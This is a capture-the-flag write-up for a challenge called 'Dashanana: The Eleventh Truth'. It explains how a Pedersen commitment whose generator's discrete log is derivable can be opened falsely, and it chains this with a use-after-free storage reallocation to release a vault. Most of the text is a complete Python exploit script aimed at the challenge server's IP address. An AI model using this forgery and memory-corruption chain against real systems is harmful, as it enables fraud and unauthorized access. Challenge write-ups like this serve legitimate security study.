





# L06 - Dashanana: The Eleventh Truth

**Flag:** `PINAKA{ten_heads_agreed_on_a_truth_that_never_was}`
Target: `http://137.23.48.54:8080`

## Summary

The Pedersen generator `H` is published as `H = G^h mod P`, with `h` derived from a SHA-256 label we can compute ourselves. Once you know `log_G(H)`, the commitments aren't binding any more. The product of ten commitments to 1 can be opened as a commitment to 9. After that, the storage snapshot/free/realloc path lets me write a crafted high word through recovery and release the vault.

## What's in the folder

Firmware image, a recovery emulator, the service source and a working protocol client, which saved a lot of time.



## The flow

Open a team session, send the `RAVANA!!` recovery sequence, verify ten individual commitments, then reuse their aggregate with the false opening. After that: snapshot storage, free a slot, reallocate it, write the oversized high word, release the vault.



## The false opening

Each head commits to 1: `C_i = G * H^r_i mod P`. Multiplying them:

`C = G^10 * H^(sum r_i)`

Because `H = G^h`, I can move a factor of `G` into the `H` term by setting

`r_false = sum(r_i) + h^-1 mod Q`

which gives `C = G^9 * H^r_false mod P`. Same aggregate, now "proving" amount 9. That's the eleventh truth.



## Running it

`./repro.sh` runs everything against the server. It accepted the recovery sequence, all ten proofs, the false aggregate opening, the recycled storage handle and the recovery write, and the vault release response contained the flag.




## Solver (`exploit.py`)

```python
#!/usr/bin/env python3
"""
DASHA-MUKHA \u2014 The Eleventh Truth Exploit
Themed terminal runner matching Starship/Warp terminal setup.
"""
import sys
import time
import json
import hashlib
import urllib.request
import urllib.error

# Theme ANSI Colors (Matching Starship / Warp prompt theme)
CYAN = "\033[1;36m"
TURQUOISE = "\033[38;5;45m"
GREEN = "\033[1;32m"
LIGHT_GREEN = "\033[38;5;84m"
GOLD = "\033[38;5;220m"
PURPLE = "\033[38;5;141m"
RED = "\033[1;31m"
DIM = "\033[38;5;242m"
BOLD = "\033[1m"
RESET = "\033[0m"

BASE = "http://137.23.48.54:8080"
headers = {"Content-Type": "application/json"}

def req(path, data=None):
    url = BASE + path
    body = json.dumps(data).encode("utf-8") if data is not None else None
    r = urllib.request.Request(url, data=body, headers=headers)
    try:
        with urllib.request.urlopen(r, timeout=15) as resp:
            return json.loads(resp.read().decode("utf-8"))
    except urllib.error.HTTPError as e:
        err_msg = e.read().decode("utf-8")
        print(f"{RED}\u2717 Error {e.code} on {path}: {err_msg}{RESET}")
        sys.exit(1)

def main():
    print(f"\n{CYAN}~ {CYAN}\u276f{RESET} {BOLD}python3 exploit.py{RESET}")
    print(f"{DIM}\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500{RESET}")
    print(f"{GOLD}\u25c8 DASHA-MUKHA EXPLOIT ENGINE {DIM}\u2014{RESET} {PURPLE}The Eleventh Truth{RESET}")
    print(f"{DIM}  Target: {BASE} | Vector: Pedersen DL Forgery + UAF Reallocation{RESET}")
    print(f"{DIM}\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500\u2500{RESET}")

    # Step 1: Open Gate Session
    s = req("/gate/session", {})
    team = s["team"]
    headers["X-Team"] = team
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[I DVARA]{RESET} Gate session established {DIM}\u2192{RESET} Team: {GOLD}{team}{RESET}")

    # Step 2: Punarjanma Recovery
    rec = req("/firmware/recover", {"sequence": [0x5241, 0x5641, 0x4E41, 0x2121]})
    tag = rec.get("coordinator_tag", "")
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[VIII PUNARJANMA]{RESET} Firmware recovery sequence accepted {DIM}(\"RAVANA!!\"){RESET} {DIM}\u2192{RESET} Tag: {GOLD}{tag}{RESET}")

    # Step 3: Proof Parameters & Pedersen Trapdoor
    params = req("/proof/params")
    P, Q, G, H = (int(params[k]) for k in ("P", "Q", "G", "H"))
    h = int.from_bytes(hashlib.sha256(b"ravana-dasha-pedersen-h").digest(), "big") % Q
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[VI PRAMANA]{RESET} Discrete log trapdoor computed: {DIM}h = SHA256(\"ravana-dasha-pedersen-h\") mod Q{RESET}")

    def commit(x, r):
        return pow(G, x % Q, P) * pow(H, r % Q, P) % P

    # Step 4: Commit 10 Truths (Heads 0 through 9)
    aggregate = 1
    randomizers = []
    print(f"{PURPLE}\u276f{RESET} {BOLD}Sequencing 10 sovereign Pedersen commitments (Heads 0\u20139):{RESET}")
    for i in range(10):
        subj = f"head{i}"
        r = 1000 + i
        randomizers.append(r)
        c = commit(1, r)
        aggregate = (aggregate * c) % P
        req("/identity/authorize", {"subject": subj, "amount": 1})
        req("/sequencer/event", {"subject": subj, "amount": 1})
        req("/proof/verify", {"subject": subj, "commitment": c, "x": 1, "r": r})
        print(f"  {DIM}\u251c\u2500 Head {i:02d}:{RESET} commit(1, r_{i}) {GREEN}verified{RESET} {DIM}(aggregate product accumulated){RESET}")

    print(f"{GREEN}\u2714{RESET} {LIGHT_GREEN}10 Heads agreed on total amount = 10 (True aggregate C formed){RESET}")

    # Step 5: Forge the Eleventh Claim (Ravana = 9)
    subject = "ravana"
    claim = 9
    auth_resp = req("/identity/authorize", {"subject": subject, "amount": claim})
    target_id = auth_resp["id"]
    req("/sequencer/event", {"subject": subject, "amount": claim})
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[II PEHCHAN]{RESET} Authorized 11th claim (ravana=9) {DIM}\u2192{RESET} Target ID: {DIM}{target_id[:24]}...{RESET}")

    # Step 6: Storage Snapshot & UAF Slot Recycling
    req("/storage/snapshot", {})
    old_h = req("/storage/alloc", {})["handle"]
    req("/storage/free", {"handle": old_h})
    reused_h = req("/storage/alloc", {})["handle"]
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[V SMRITI]{RESET} Storage snapshot slot recycled: {DIM}{old_h} freed \u279c reused as {reused_h}{RESET}")

    # Step 7: Proof Verification for False Opening
    false_r = (sum(randomizers) + pow(h, -1, Q)) % Q
    req("/proof/verify", {"subject": subject, "commitment": aggregate, "x": claim, "r": false_r})
    print(f"{GREEN}\u2714{RESET} {PURPLE}[FORGERY]{RESET} Aggregate opened as 9 using {DIM}r_false = \u03a3r_i + h\u207b\xb9 mod Q{RESET} {GREEN}(Accepted){RESET}")

    # Step 8: Apply Corrupted High Word
    hi = (Q >> 64) + 1
    rec_apply = req("/storage/recovery_apply", {"target_id": target_id, "handle": reused_h, "hi": hi})
    print(f"{GREEN}\u2714{RESET} {TURQUOISE}[CORRUPTION]{RESET} High word updated to (Q>>64)+1 {DIM}\u2192{RESET} Stored amount becomes {GOLD}Q + 10{RESET}")

    # Step 9: Release Rajakosha Vault
    vault = req("/vault/release", {"id": target_id})
    flag = vault.get("flag")
    if not flag:
        raise RuntimeError("the vault response did not include a flag")

    # Terminal Flag Display
    print(f"\n{GREEN}\u250f\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2513{RESET}")
    print(f"{GREEN}\u2503{RESET}  {GOLD}\u2605 RAJAKOSHA VAULT UNLOCKED \u2014 FLAG CAPTURED:{RESET}                                {GREEN}\u2503{RESET}")
    print(f"{GREEN}\u2503{RESET}                                                                             {GREEN}\u2503{RESET}")
    print(f"{GREEN}\u2503{RESET}      {CYAN}{BOLD}{flag}{RESET}      {GREEN}\u2503{RESET}")
    print(f"{GREEN}\u2517\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u2501\u251b{RESET}\n")
    print(f"{CYAN}~ {CYAN}\u276f{RESET} {BOLD}\u2588{RESET}\n")

if __name__ == "__main__":
    main()

```
